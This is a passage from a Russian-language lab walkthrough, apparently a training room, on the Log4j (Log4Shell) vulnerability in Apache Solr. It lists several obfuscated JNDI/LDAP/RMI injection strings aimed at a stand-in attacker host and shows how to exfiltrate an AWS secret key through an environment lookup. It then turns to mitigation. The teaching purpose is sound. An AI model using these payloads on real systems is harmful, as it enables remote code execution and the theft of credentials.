 В Интернете имеется множество ресурсов, демонстрирующих примеры таких обходных путей, некоторые из них приведены ниже:

```commandline
${${env:ENV_NAME:-j}ndi${env:ENV_NAME:-:}${env:ENV_NAME:-l}dap${env:ENV_NAME:-:}//attackerendpoint.com/
${${lower:j}ndi:${lower:l}${lower:d}a${lower:p}://attackerendpoint.com/
${${upper:j}ndi:${upper:l}${upper:d}a${lower:p}://attackerendpoint.com/
${${::-j}${::-n}${::-d}${::-i}:${::-l}${::-d}${::-a}${::-p}://attackerendpoint.com/z}
${${env:BARFOO:-j}ndi${env:BARFOO:-:}${env:BARFOO:-l}dap${env:BARFOO:-:}//attackerendpoint.com/}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://attackerendpoint.com/
${${::-j}ndi:rmi://attackerendpoint.com/}
```


Обратите внимание на использованиеrmi://протокол в последнем. Это также еще один допустимый метод, который может 
быть использован сmarshalsecполезность — не стесняйтесь экспериментировать! 

Кроме того, в движке log4j вы можете расширить произвольные переменные окружения (если это уже не было достаточно 
плохо). Подумайте об ущербе, который может быть нанесен даже при удаленном выполнении кода, но простое 
LDAP-соединение и эксфильтрация ${env:AWS_SECRET_ACCESS_KEY}  

Для других методов вам настоятельно рекомендуется провести собственное исследование. Значительное количество 
информации распространяется в этой ветке Reddit:  https://www.reddit.com/r/sysadmin/comments/reqc6f/log4j_0day_being_exploited_mega_thread_overview/ 

Нежное напоминание, используйте эти знания во благо . Вы знаете, как говорят... великая сила, великая 
ответственность и все такое. 


### Ответьте на вопросы ниже
Прочитайте вышеизложенное и напомните себе, что вы — специалист по безопасности с твердыми моральными принципами.

```commandline
Ответ не нужен
```

## Задание 9
Теперь, когда вы немного побыли в роли противника, снимите свою хакерскую шляпу и давайте смягчим уязвимость на этой 
уязвимой машине!  Ознакомьтесь с методами смягчения, предлагаемыми на веб-сайте Apache Solr.  https://solr.apache.org/security.html 

Один из вариантов — вручную изменить  solr.in.sh файл с помощью определенного синтаксиса. Давайте пойдем по этому 
пути ради демонстрации этой оборонительной тактики. 

Если вы хотите напрямую подключиться к машине по SSH , то учетные данные следующие: vagrant в качестве имени 
пользователя и vagrant в качестве пароля. 
